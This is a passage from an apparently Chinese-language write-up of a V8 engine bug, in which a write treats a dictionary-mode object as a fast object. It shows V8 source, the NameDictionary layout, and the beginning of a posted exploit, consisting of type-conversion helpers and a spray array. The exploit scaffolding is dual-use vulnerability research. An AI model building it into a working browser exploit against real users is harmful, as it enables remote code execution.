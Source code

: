 ```
 
int index() const {
   DCHECK(IsAligned(offset(), kTaggedSize));
   return offset() / kTaggedSize;
}
 
int outobject_array_index() const {
   DCHECK(!is_inobject());
   return index() - first_inobject_property_offset() / kTaggedSize;
} 
```

在进行写入之前，调用 `` 更新了 `object` 的 `map` 为 `dict map`，所以后但是写入是按照 `fast object` 进行写入的，`NameDictionary` 结构如下：

```
map               [4]
FixedArray length [4]
elements          [4]
deleted           [4]
capacity          [4]
PrefixStartIndex  [4]
padding??         [0x10]
N * [
    kEntryKeyIndex = 0     [4]
    kEntryValueIndex = 1   [4]
    kEntryDetailsIndex = 2 [4]
]

```

无语了，写到 12 点半，结果上传文件，失败后，直接崩了，之前写的东西全没了，无语，不想写了，有时间再补吧...... 贴个 exp

```
var buf = new ArrayBuffer(8);
var dv  = new DataView(buf);
var u8  = new Uint8Array(buf);
var u32 = new Uint32Array(buf);
var u64 = new BigUint64Array(buf);
var f32 = new Float32Array(buf);
var f64 = new Float64Array(buf);
var roots = new Array(0x30000);
var index = 0;
 
function pair_u32_to_f64(l, h) {
        u32[0] = l;
        u32[1] = h;
        return f64[0];
}
 
function u64_to_f64(val) {
        u64[0] = val;
        return f64[0];
}
 
 
function f64_to_u64(val) {
        f64[0] = val;
        return u64[0];
}
 
function set_u64(val) {
        u64[0] = val;
}
 
```